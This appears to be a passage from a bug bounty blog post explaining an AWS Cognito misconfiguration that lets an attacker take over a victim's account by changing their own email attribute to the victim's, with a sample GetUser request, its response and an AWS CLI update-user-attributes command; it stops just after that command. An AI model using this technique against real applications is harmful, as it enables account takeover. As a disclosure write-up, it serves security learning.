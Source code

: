 ```yaml
---
layout: post
title:  "AWS Cognito Misconfiguration"
date:   2022-11-04
categories: bugbounty
---
```


Hello everyone, hope you are all good and having some fun. After a long time I came up with an other interesting blog where I discuss about an interesting AWS Cognito misconfiguration allowing attacker to merge victim's account with the attacker account on behalf of the victim. This was found on one of the engagements at Synack Red Team.

For those who doesn't know about AWS Cognito. 

### Amazon Cognito

Amazon Cognito provides authentication, authorization, and user management for customer's web and mobile applications. Users can sign in directly with a user name and password, or through a third party such as Facebook, Amazon, Google, Apple, or enterprise identity providers via SAML 2.0 and OpenID Connect. The two main components of Amazon Cognito are user pools and identity pools. User pools are user directories that provide sign-up and sign-in options for application users. Identity pools enable developers to grant users access to other AWS services

**References:**
* https://aws.amazon.com/cognito/
* https://www.techtarget.com/searchaws/definition/Amazon-Cognito

<p align="center">
<img src="https://docs.aws.amazon.com/images/cognito/latest/developerguide/images/cognito-user-pool-auth-flow-srp.png">
</p>

The Target application was using AWS Cognito for authentication purpose. Upon Login to the application certain requests were being made to AWS Cognito to validate the user. Once the validation check was passed you will be allowed to login to the application

The flow will be as follows

User login -> AWS Cognito (Authentication) -> AWS Cognito (Get User Attributes) -> Application Login

The request for `Get User Attribute` will have a header named `X-Amz-Target: AWSCognitoIdentityProviderService.GetUser` and the response for the request will be as follows

**Request:**
```
POST / HTTP/2
Host: cognito-idp.us-west-2.amazonaws.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-amz-json-1.1
X-Amz-Target: AWSCognitoIdentityProviderService.GetUser
X-Amz-User-Agent: aws-amplify/5.0.4 js
Content-Length: 1072
Origin: https://<REDACTED>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site

{"AccessToken":"<Token>"}
```

**Response:**
```
{
    "Username": "attacker@attacker.com",
    "UserAttributes": [
        {
            "Name": "sub",
            "Value": "<UUID>"
        },
        {
            "Name": "email_verified",
            "Value": "false"
        },
        {
            "Name": "email",
            "Value": "attacker@attacker.com"
        }
    ]
}
``` 

The above response gives us the list of `user attributes` available. Among those three attributes the `email` attribute is interesting. If we can able to change our email address to victim's email address then we were able to login to the victim account with our attacker's password right? So with this mindset I started the exploitation process by making a request to `Update UserAttributes`. The Update User attribute request can be done by using `AWS CLI` or using a `HTTP Request`. Both examples have been given below

**AWS CLI**
```
aws cognito-idp update-user-attributes --region us-west-2 --access-token <Token> --user-attributes 'Name=email,Value=**victim@victim.com**'
```

Run the above command
